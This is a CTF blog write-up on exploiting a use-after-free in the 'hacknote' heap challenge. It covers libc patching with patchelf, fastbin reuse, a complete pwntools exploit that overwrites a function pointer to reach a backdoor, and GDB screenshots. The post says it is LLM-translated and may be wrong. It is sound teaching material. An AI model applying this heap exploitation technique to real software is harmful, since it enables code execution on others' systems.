 ```yaml
---
title: "PWN First Attempt on Heap - UseAfterFree"
date: 2022-06-30
tags: ["CTF", "Pwn"]
authors: [nova]
---
```


After dawdling for so long, I finally managed to dive into the world of HEAP.

Thanks to Ayang's (bushi) guidance.

Let's first take a look at the simplest `Use After Free` exploit, which requires minimal understanding of heap concepts. I will probably write about `Double Free + Unlink` tomorrow.

I used the original challenge [hacknote](https://github.com/ctf-wiki/ctf-challenges/blob/master/pwn/heap/use_after_free/hitcon-training-hacknote/hacknote) from `CTF-WIKI`.

<!--truncate-->

# Changing the `libc` used as a dynamic interpreter in Pwntools

I would like to mention a pitfall I encountered on the way. `libc-2.31` has made significant changes to the heap management mechanism, so the debugging approach based on `CTF-WIKI` didn't work initially. Therefore, I will explain how to change the dynamic interpreter.

Firstly, you need two tools, [glibc-all-in-all](https://github.com/matrix1001/glibc-all-in-one) and [patchelf](https://github.com/NixOS/patchelf).

Please refer to the `README.md` for installation instructions.

After downloading the corresponding `libc`, use `patchelf` to set the interpreter for the `ELF` file.

```sh
patchelf --set-interpreter /path/to/libc/libc-2.23.so --set-rpath /path/to/libc/ ./binary_file_name

# For Example: patchelf --set-rpath /home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ --set-interpreter /home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so ./use_after_free
```

## Use After Free

The main cause of this vulnerability is a `dangling pointer`—the memory pointer is not set to NULL after `free()`. If other code modifies the content of this memory at this point, using this memory again will lead to issues.

## Source

```sh
gcc -m64 -fno-stack-protector -no-pie -z execstack -g use_after_free.c -o use_after_free
# Make
```

No protections, 64-bit.

The program defines a structure with a pointer `printnote` pointing to the `print_note_content` method and a pointer `content`.

The implementation of `add_note()` is as follows: Firstly, it `malloc` a `struct note`, which is 16 bytes in the heap. After that, it allocates `size` bytes in the heap for `content`.

Take a look at `del_note()`. After deleting a node, `count` does not change—this limits the number of times we can `add_note()`, and also provides convenience for our exploit. Also, after `free`, `notelist[idx]` is not set to `NULL`, which opens the door for our `Use After Free` exploitation.

`print_note()` calls `notelist[idx]->printnote(notelist[idx])`. If we can modify the memory of `notelist[idx]->printnote`, we can achieve the effect of executing a backdoor function.

## Exploit

Since `struct note` is a fixed `0x20`-size `chunk`, we mainly think about the exploitation related to `fastbins`.

Since `fastbins` maintains several linked lists from `0x20` to `0x80` and has a last-in, first-out mechanism, we can consider the following scenario:

If we allocate two `0x20` notes, let's call them `note1` and `note2`, the program should have 4 heap segments—two `0x20`-sized `note1_struct_note` and `note2_struct_note`, and two `0x30`-sized `note1` and `note2` (excluding the one byte for `PREV_IN_USE`).

If we then free both notes, the `fastbins` should look like this:

```sh
fastbins:
    0x20: note2_struct_note_addr -> note1_struct_note_addr
    0x30: note2 -> note1
```

What if we then allocate another `0x10` note `note3`? Based on the recycling mechanism of `fastbins`, we can infer that:

The first `note2_struct_note_addr` will be allocated to `note3_struct_note_addr`, while the second `note1_struct_note_addr` will be allocated to our controllable `note3`.

Now, if we change the `content` of `note3` to a backdoor function and call `print_note(0)`:

As you'd expect, the backdoor function will be executed.

```python
from pwn import *

sh = process(["./use_after_free"])

def add_note(size, content):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"1")
    sh.recvuntil(b"Note size :")
    sh.sendline(str(size).encode())
    sh.recvuntil(b"Content :")
    sh.sendline(content)

def delete_note(index):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"2")
    sh.recvuntil(b"Index :")
    sh.sendline(f"{index}".encode())

def print_note(index):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"3")
    sh.recvuntil(b"Index :")
    sh.sendline(f"{index}".encode())

# gdb.attach(sh)
add_note(32, b"aaaa")
add_note(32, b"bbbb")
delete_note(0)
delete_note(1)
add_note(16, p64(0x4015f9)) # addr of magic()
print_note(0)
sh.interactive()
```

## GDB

Theoretical knowledge alone is incomplete without practical debugging using `GDB`.

Based on the explanation above, let's debug at the second `add_note()`, second `delete_note()`, and the last `add_note()`:

After adding:

![heap after adding](https://oss.nova.gal/img/image-20220314221552787.png)

![heap after adding](https://oss.nova.gal/img/image-20220314221633396.png)

`0x401256` is the address of `print_note_content()`, and `0xd04030` and `0xd04080` are the addresses of `content`.

After deleting:

![heap after deleting](https://oss.nova.gal/img/image-20220314221804318.png)

![heap after deleting](https://oss.nova.gal/img/image-20220314221824810.png)

![heap after deleting](https://oss.nova.gal/img/image-20220314221944311.png)

Different-sized chains enter different `fastbins`.

Final state:

![heap final](https://oss.nova.gal/img/image-20220314222135890.png)

![heap final](https://oss.nova.gal/img/image-20220314222201810.png)

![heap final](https://oss.nova.gal/img/image-20220314222221269.png)

After the last addition, we observe that the two `0x20`-sized heaps in `fastbins` have been recycled! The address of the backdoor function `0x4015f9` as the `content` has been written to the location of the initial `print_note_content()`.

At this point, running `print_note()` will execute the backdoor function.

![Shell!](https://oss.nova.gal/img/image-20220314222613059.png)

:::info
This Content is generated by LLM and might be wrong / incomplete, refer to Chinese version if you find something wrong.
:::

<!-- AI -->
